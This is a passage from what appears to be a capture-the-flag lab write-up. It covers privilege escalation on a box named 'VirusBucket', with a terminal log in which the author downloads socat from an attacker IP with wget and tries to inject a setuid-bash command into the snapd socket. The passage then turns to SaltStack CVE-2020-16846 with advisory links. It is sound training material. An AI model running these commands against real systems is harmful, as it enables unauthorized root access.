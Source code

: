 [https://book.hacktricks.xyz/linux-unix/privilege-escalation/socket-command-injection](https://book.hacktricks.xyz/linux-unix/privilege-escalation/socket-command-injection)

```text
tomcat@VirusBucket:/dev/shm$ wget http://10.10.15.98:8099/socat
--2020-12-13 21:56:26--  http://10.10.15.98:8099/socat
Connecting to 10.10.15.98:8099... failed: Connection refused.
tomcat@VirusBucket:/dev/shm$ wget http://10.10.15.98:8099/socat
--2020-12-13 21:56:32--  http://10.10.15.98:8099/socat
Connecting to 10.10.15.98:8099... connected.
HTTP request sent, awaiting response... 200 OK
Length: 378384 (370K) [application/octet-stream]
Saving to: ‘socat’

socat               100%[===================>] 369.52K   799KB/s    in 0.5s    ^[[A

2020-12-13 21:56:33 (799 KB/s) - ‘socat’ saved [378384/378384]

tomcat@VirusBucket:/dev/shm$ chmod +x socat
tomcat@VirusBucket:/dev/shm$ echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | ./socat - UNIX-CLIENT:/run/snapd.socket
HTTP/1.1 400 Bad Request
Content-Type: text/plain; charset=utf-8
Connection: close

400 Bad Request
```

This socket did not seem to be vulnerable to this kind of injection

### CVE-2020-16846

Next I looked closer at the ports that were open internally. `SaltStack` uses ports 4505 and 4506 for its Salt master

* [https://docs.saltstack.com/en/getstarted/system/communication.html](https://docs.saltstack.com/en/getstarted/system/communication.html#:~:text=The%20Salt%20master%20uses%20ports%204505%20and%204506%2C,which%20must%20be%20opened%20to%20accept%20incoming%20connections)

> Publisher \(port 4505\) All Salt minions establish a persistent connection to the publisher port where they listen for messages. Commands are sent asynchronously to all connections over this port, which enables commands to be executed over large numbers of systems simultaniously.
>
> Request Server \(port 4506\) Salt minions connect to the request server as needed to send results to the Salt master, and to securely request files and minion-specific data values \(called Salt pillar\). Connections to this port are 1:1 between the Salt master and Salt minion \(not asynchronous\).

I did not see a salt user so it was possible that this might be running as `root`

* [https://us-cert.cisa.gov/ncas/current-activity/2020/05/01/saltstack-patches-critical-vulnerabilities-salt](https://us-cert.cisa.gov/ncas/current-activity/2020/05/01/saltstack-patches-critical-vulnerabilities-salt)
* [https://www.saltstack.com/blog/on-november-3-2020-saltstack-publicly-disclosed-three-new-cves/](https://www.saltstack.com/blog/on-november-3-2020-saltstack-publicly-disclosed-three-new-cves/)
